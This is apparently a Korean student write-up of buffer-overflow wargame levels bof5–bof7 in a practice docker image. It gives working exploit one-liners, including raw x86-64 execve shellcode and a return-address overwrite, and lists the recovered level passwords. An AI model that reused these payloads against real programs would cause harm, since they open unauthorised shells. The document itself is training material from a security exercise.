 # Assignment

```shell
 $ docker run -it --privileged ccss17/bof
```

> ID는 bof5, Password는 bof4에서 밝혀냈음

<br/>

### 8 - bof5

```shell
 $ vi bof5.c
```

![08-bof5_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/08-bof5_code.png?raw=true)

bof5.c의 소스 코드를 확인한다.

![08-disas](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/08-disas_vuln.png?raw=true)

함수의 구성을 확인한다.

```shell
 $ (python -c "print '/bin/sh\x00'+'x'*132+'\x78\x56\x34\x12'";cat) | ./bof5
```

↑ Little endian 식의 키 값(\x78\x56\x34\x12)을 넣어준 코드임 ↑

![08-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/08-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof6.pw를 읽어준다.

> bof6의 비밀번호는 b35aad61 이다.

<br/>
<br/>

### 9 - bof6

```shell
 $ vi bof6.c
```

![09-bof5\6_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/08-bof5_code.png?raw=true)

bof6.c의 소스 코드를 확인한다.

**(python -c "print 'x'\*< BUF to RETURN ADDRESS >+'< SHELLCODE ADDRESS >'";cat) | ./bof6**

<br/>

buf와 return address의 거리는 136이다. (buf_size + SFP)

<img src = "https://github.com/YYYEJI/SECURITY/blob/master/img/09-pw.png?raw=true" width="30%" height="20%">

쉘을 열어주고
쉘 권한으로 bof7.pw를 읽어준다.

> bof7의 비밀번호는 ffa35d7e 이다.

<br/>
<br/>

### 10 - bof7

```shell
 $ vi bof7.c
```

![10-bof7_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/10-bof6_code.png?raw=true)

bof7.c의 소스 코드를 확인한다.

<br/>

buf와 return address의 거리는 136이다.
그리고 8byte를 덮어줘야 하기 때문에 전달해야 할 인자값은 144byte이다.

<br/>

```shell
 $  ./bof7 `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 'x'*109 + '\xb0\xea\xff\xff\xff\x7f'"`
```

![10-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/10-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof8.pw를 읽어준다.

> bof7의 비밀번호는 0dc54105 이다.

